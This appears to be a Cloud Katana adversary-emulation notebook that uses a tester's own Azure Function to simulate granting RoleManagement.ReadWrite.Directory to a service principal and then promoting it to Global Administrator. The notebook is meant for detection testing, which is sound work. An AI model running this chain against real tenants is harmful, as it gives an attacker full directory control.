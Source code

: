 ```yaml
---
jupyter:
  jupytext:
    text_representation:
      extension: .md
      format_name: markdown
      format_version: '1.3'
      jupytext_version: 1.14.7
  kernelspec:
    language: python
---
```


# Admin promotion via Directory Role Permission Grant


## Metadata



|                   |    |
|:------------------|:---|
| contributors      | ['Azure'] |
| platform          | Roberto Rodriguez @Cyb3rWard0g |
| creation date     | 2021-11-01 |
| modification date | 2022-05-01 |
| Tactics           | [TA0003](https://attack.mitre.org/tactics/TA0003) |
| Techniques        | [T1098.001](https://attack.mitre.org/techniques/T1098/001) |


## Description
A campaign to simulate a threat actor granting the Microsoft Graph RoleManagement.ReadWrite.Directory (application) permission to an Azure service principal and using the new permissions to add an Azure AD object or user account to an Admin directory role (i.e. Global Administrators).


## Get OAuth Access Token

```python
from msal import PublicClientApplication
import requests
import time

function_app_url = "https://FUNCTION_APP_NAME.azurewebsites.net"

tenant_id = "TENANT_ID"
public_client_app_id = "KATANA_CLIENT_APP_ID"
server_app_id_uri = "api://" + tenant_id + "/cloudkatana"
scope = server_app_id_uri + "/user_impersonation"

app = PublicClientApplication(
    public_client_app_id,
    authority="https://login.microsoftonline.com/" + tenant_id
)
result = app.acquire_token_interactive(scopes=[scope])
bearer_token = result['access_token']
```

## Set Azure Function Orchestrator

```python
endpoint = function_app_url + "/api/orchestrators/Orchestrator"
```

## Load Campaign

```python
data = {"id": "7dde2208-d4eb-480e-afa1-bad0ab7e861b", "name": "Admin promotion via Directory Role Permission Grant", "metadata": {"creationDate": "2021-11-01", "modificationDate": "2022-05-01", "platform": ["Azure"], "description": "A campaign to simulate a threat actor granting the Microsoft Graph RoleManagement.ReadWrite.Directory (application) permission to an Azure service principal and using the new permissions to add an Azure AD object or user account to an Admin directory role (i.e. Global Administrators).", "contributors": ["Roberto Rodriguez @Cyb3rWard0g"], "mitreAttack": [{"technique": "T1098.001", "tactics": ["TA0003"]}]}, "steps": [{"number": 1, "name": "AddPasswordToAADApp", "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Add-CKAzADAppPassword"}, "parameters": {"appObjectId": {"type": "string", "defaultValue": "appObjectId"}}}, "wait": 120}, {"number": 2, "name": "GetAccessTokenOne", "dependsOn": [1], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Get-CKAccessToken"}, "parameters": {"ClientId": {"type": "string", "defaultValue": "appClientId"}, "GrantType": {"type": "string", "defaultValue": "client_credentials"}, "AppSecret": {"type": "string", "defaultValue": "reference(1).secretText"}}}}, {"number": 3, "name": "GrantRoleMgmtPermission", "dependsOn": [2], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Grant-CKAzADAppPermissions"}, "parameters": {"accessToken": {"type": "string", "defaultValue": "reference(2).access_token"}, "spObjectId": {"type": "string", "defaultValue": "appSPObjectId"}, "resourceName": {"type": "string", "defaultValue": "Microsoft Graph"}, "permissionType": {"type": "string", "defaultValue": "Application"}, "permissions": {"type": "array", "defaultValue": ["RoleManagement.ReadWrite.Directory"]}}}, "wait": 120}, {"number": 4, "name": "GetAccessTokenTwo", "dependsOn": [3], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Get-CKAccessToken"}, "parameters": {"ClientId": {"type": "string", "defaultValue": "appClientId"}, "GrantType": {"type": "string", "defaultValue": "client_credentials"}, "AppSecret": {"type": "string", "defaultValue": "reference(1).secretText"}}}}, {"number": 5, "name": "AddServicePrincipalToGARole", "dependsOn": [4], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Add-CKAzADDirectoryRoleMember"}, "parameters": {"accessToken": {"type": "string", "defaultValue": "reference(4).access_token"}, "directoryRoleTemplateId": {"type": "string", "defaultValue": "templateRoleId"}, "directoryObjectId": {"type": "string", "defaultValue": "directoryObjectId"}}}}], "file_name": "admin_promotion_via_directory_role_permission_grant"}
```

### Send HTTP Request

```python
http_headers = {'Authorization': 'Bearer ' + bearer_token, 'Accept': 'application/json','Content-Type': 'application/json'}
results = requests.get(endpoint, json=data, headers=http_headers, stream=False).json()

time.sleep(30)
```

### Explore Output

```python
query_status = requests.get(results['statusQueryGetUri'], headers=http_headers, stream=False).json()
query_results = query_status['output']
query_results
```
